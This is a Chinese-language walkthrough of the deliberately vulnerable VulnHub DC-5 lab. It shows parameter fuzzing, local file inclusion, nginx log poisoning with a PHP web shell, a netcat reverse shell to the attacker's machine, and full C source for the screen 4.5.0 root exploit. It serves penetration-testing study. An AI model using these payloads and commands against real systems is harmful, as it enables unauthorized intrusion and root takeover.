




# DC5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-5,314/

**Description**

DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The plan was for DC-5 to kick it up a notch, so this might not be great for beginners, but should be ok for people with intermediate or better experience. Time will tell (as will feedback).

As far as I am aware, there is only one exploitable entry point to get in (there is no SSH either). This particular entry point may be quite hard to identify, but it is there. You need to look for something a little out of the ordinary (something that changes with a refresh of a page). This will hopefully provide some kind of idea as to what the vulnerability might involve.

And just for the record, there is no phpmailer exploit involved. :-)

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

But if you're really, really stuck, you can watch this video which shows the first step.

**Technical Information**

DC-5 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

**知识点**
- Get 参数 Fuzz (中期)
- LFI (中期)
- 日志中毒攻击 (中期)
- screen 4.5.0 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.141.139` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.139
```


三个端口，一个 web，两个 rpc，先从熟悉的 web 入手


都是一堆狗屁不通的东西，只在 contact 中找到可以交互的点，填写表单试试


随便提交了一些数据，被定向到了 `thankyou.php` 下,页面上看上去啥也没有，不过 url 参数中貌似可以 fuzz 一下

---

# 中期-漏洞利用

仔细查看链接 `http://192.168.141.139/thankyou.php?firstname=11%3Cb%3E1&lastname=21%3Cb%3E1&country=australia&subject=1%3Cb%3E1`

存在 firstname lastname country subject 四个参数，分别修改、替换，发现这些参数的值无论怎么改都不会有变化,但是修改这些参数本身，页面会变动。那就好办了,别 Fuzz 这4个参数的值,直接 Fuzz 出是否有可利用的其他参数就是了

联想到网页是 php 写的，加上这种参数的地方很可能会出现的漏洞就是文件包含、文件下载等

直接使用 burp 跑参数字典+文件包含字典

字典不要选错，Linux 的靶机选择 Linux 的 LFI Payload 字典 : https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/LFI/LFI_Linux.txt

参数字典选择常见的 GET 参数字典 : https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/api%26params/GET_params_Top99.txt

使用 burp 开始跑


可见，跑出一个参数 file,基本可以确认这里存在一个文件包含漏洞了

这里也可以使用 wfuzz 跑,就不演示了
```
wfuzz -w GET_params_Top99.txt -w LFI_Linux.txt --hh 851 -u http://192.168.141.139/thankyou.php?FUZZ=FUZ2Z
```

既然有了文件包含漏洞下面就想办法拿 shell,这里可以配合日志进行命令执行 (日志中毒攻击)

先找到日志文件,Linux+php+Nginx 环境,老规矩,爆破 Nginx 日志



运气不错,就拿 `/var/log/nginx/access.log` 开刀了

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php phpinfo() ?>` 测试



再次访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log`



访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`

kali 开启 nc 监听
```bash
nc -nlvp 4444
```

访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.141.134 4444 -e /bin/bash` 测试


弹回来了

---

# 后期-提权

升级下
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

找带 suid 的文件
```bash
find / -perm -u=s 2>/dev/null
```


在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0
```
searchsploit -w screen 4.5.0
```

访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送
```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行
```bash
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行
```bash
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机
```
python -m SimpleHTTPServer 8080
```

```
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```

运行 poc
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```


提权成功,感谢靶机作者 @DCUA7
